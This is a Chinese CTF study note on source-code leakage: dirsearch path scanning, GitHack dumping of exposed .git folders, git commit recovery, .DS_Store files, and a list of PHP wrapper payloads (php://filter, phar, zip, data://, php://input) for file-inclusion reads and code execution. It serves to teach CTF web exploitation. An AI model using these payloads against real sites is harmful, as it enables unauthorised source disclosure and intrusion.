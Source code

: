 # 源码泄露

很少很少会碰到flag放在泄露出来的源码里面


一般都是代码审计，所以会和其他很多东西交织在一起，属于一个比较中间的模块。

所以这里应该是不会有什么例子。

## dirsearch

其实就是一个软件的名称，用来扫后台路径的，讲不好可以扫出源码。


御剑我没用过hhh


（但是buu有访问限制会经常429.......所以记得加参数）


放上下载链接


[https://github.com/maurosoria/dirsearch](https://github.com/maurosoria/dirsearch)


git clone下载就能用了记得chmod +x


然后用法一般是

./dirsearch -u URL -x 404,429,500...(看需求) -t 5(线程数) -d 0.1(访问延迟)

## .git源码泄露

开发人员会使用 git 进行版本控制，对站点自动部署。但如果配置不当，可能会将 .git 文件夹直接部署到线上环境，这就引起了 git 泄露漏洞，我们可以利用这个漏洞直接获得网页源码。


通过网页访问 .git 目录，如果能访问就说明存在（权限不够也行）


要获取泄露的源码，可以使用 GitHack 工具


python（2） GitHack.py url


下载完之后的工作基本上是代码审计。


[https://github.com/BugScanTeam/GitHack](https://github.com/BugScanTeam/GitHack)


需要注意的，貌似我见过的都是py2写的，所以需要py2调用

## git文件修复

`git log --all`


一个是显示

`git reset --hard e5b2a2443c2b6d395d06960123142bc91123148c`


一个是恢复

## ds_store

在Mac OS上会存在。


DS_Store 是用来存储这个文件夹的显示属性的：比如文件图标的摆放位置。删除以后的副作用就是这些信息的失去。（当然，这点副作用其实不是太大）


主要是如果拿到了这个文件由于各种编码的原因会很难受


于是给出一个解析读取这类文件的脚本：

## php伪协议

其实这个东西应该放在文件包含和文件上传里面的。纠结了一下，但还是，决定两个地方都放着(不过不会放很多，大头还是放在那边)：


include、require、include_once、require_once、highlight_file 、show_source 、readfile 、file_get_contents 、fopen 、file


这些都是常见的文件包含函数伪协议依托于这些函数来执行。。


以常见的include为例好了


最长使用的为php://filter/read=convert.base64-encode/resource=[文件名]</code>读取文件源码（针对php文件需要base64编码）


会碰到include($_GET['NAME'])


然后你传个?NAME=php://filter/read=convert.base64-encode/resource=index.php


进去，然后就可以拿到index.php的base64编码的源码。


原理就是文件包含（之后介绍）


### php支持的伪协议有：


```plain
ftp://shell.php
file:///tmp/shell.php
http://xxxx/shell.php
\\smbserver\shell.php        //unc路径
phar://xxxx/x.zip/shell.php   //需将shell.php打包为x.zip上传
zip://xxxx/x.zip#shell.php    //需将shell.php打包为x.zip上传
php://filter/read=convert.base64-encode/resource=shell.php
compress.bzip2://shell.php
compress.zlib://shell.jpg
php://input    [POST DATA] <?php phpinfo()?>
data://text/plain,<?php phpinfo()?>                 //也可以data:text/plain,<?php phpinfo()?>
data://text/plain;base64,PD9waHAgcGhwaW5mbygpPz4=
php://filter/read=convert.base64-encode/resource=phar://phar.phar
php://filter/convert.base64-decode|convert.base64-decode/resource=shell.php
php://filter/%72ead=convert.base64-encode/resource=shell.%70hp
Plain Text
```



读文件常用的也就php：（访问各个输入/输出流（I/O streams））


和file:（还有local_file,这个之后再说，好像是个cve）


所谓的伪协议，事实上是其支持的协议与封装协议

## google

有些代码（比如说直接的服务器端框架性的）试能够直接用github和google直接搜索到的


因此这也是一种形式上的源码泄露。









